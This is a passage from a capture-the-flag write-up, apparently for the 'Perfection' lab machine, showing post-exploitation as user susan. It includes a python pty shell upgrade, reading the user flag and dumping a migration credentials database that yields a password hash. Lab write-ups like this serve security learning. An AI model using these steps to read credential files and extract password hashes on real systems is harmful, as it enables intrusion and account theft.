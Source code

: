 ## Logged in as susan

### Upgrading shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
susan@perfection:~/ruby_app$ 
```

### Looking for interesting files

```bash
susan@perfection:~/ruby_app$ ls
ls
main.rb  public  views
susan@perfection:~/ruby_app$ cd ../
cd ../
susan@perfection:~$ ls -la
ls -la
total 52
drwxr-x--- 8 susan susan 4096 May  2 06:22 .
drwxr-xr-x 3 root  root  4096 Oct 27  2023 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3771 Feb 27  2023 .bashrc
drwx------ 2 susan susan 4096 Oct 27  2023 .cache
drwx------ 3 susan susan 4096 May  2 08:43 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4096 Oct 27  2023 .local
drwxr-xr-x 2 root  root  4096 Oct 27  2023 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4096 Oct 27  2023 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
drwxrwxr-x 2 susan susan 4096 May  2 06:24 .ssh
-rw-r--r-- 1 susan susan    0 Oct 27  2023 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 May  2 06:21 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17  2023 .vimrc
susan@perfection:~$ cat user.txt
cat user.txt
0bb4beec5564c84cfa907870261db8cc
```

```
susan@perfection:~$ ls -la Migration                 
ls -la Migration
total 16
drwxr-xr-x 2 root  root  4096 Oct 27  2023 .
drwxr-x--- 8 susan susan 4096 May  2 06:22 ..
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
susan@perfection:~$ cat Migration/pupilpath_credentials.db
cat Migration/pupilpath_credentials.db
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Miller
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```
